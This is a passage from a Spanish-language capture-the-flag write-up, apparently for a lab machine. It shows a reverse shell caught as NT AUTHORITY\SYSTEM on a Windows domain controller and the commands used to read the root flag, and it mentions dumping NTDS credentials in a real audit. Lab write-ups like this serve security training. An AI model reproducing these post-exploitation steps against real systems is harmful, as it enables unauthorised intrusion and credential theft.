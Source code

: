 ~~~bash
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.108] 55749
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con acceso al dc como "nt authority\system", se puede tener acceso a cualquier recurso, asi que se lee la root flag y despues en una auditoria real yo haria un dumpeado de la NTDS (Siempre con permiso del gerente).
~~~powershell
C:\Windows\system32>cd /
cd /

C:\>cd users
cd users

C:\Users>cd administrator
cdcd administrator

C:\Users\Administratocd desktop
cd desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3A0C-428E

 Directory of C:\Users\Administrator\Desktop

09/27/2021  04:22 AM    <DIR>          .
09/27/2021  04:22 AM    <DIR>          ..
10/29/2025  03:35 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   8,827,920,384 bytes free

C:\Users\Administrator\Desktop>type root.txt
<Encuentre su propio root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

